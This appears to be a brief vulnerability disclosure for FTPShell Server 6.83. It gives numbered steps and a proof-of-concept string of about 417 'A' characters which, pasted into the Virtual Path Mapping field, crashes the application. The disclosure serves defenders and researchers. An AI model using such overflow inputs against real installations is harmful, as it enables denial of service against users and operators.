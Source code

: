 # FTPShell Server 6.83  -- Denial of Service

Discoverer: leiothrix  
Discovery time: 2019/4/27  
Tested Version: 6.83  
Software Link: http://www.ftpshell.com/downloadserver.htm  

```
Steps to exploit:
1.Open FTPShell Server
2.Select "Manage FTP Accounts"
3.Select "Configure accounts..."
4.Select "Add path" and in "Virtual Path Mapping" Paste Clipboard
5.Input POC 417*A
6.Click on "OK"
```

POC:
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Result map:
![图片](https://github.com/cve-vul/vul/blob/master/FTPShell/a.png)

![图片](https://github.com/cve-vul/vul/blob/master/FTPShell/b.png)
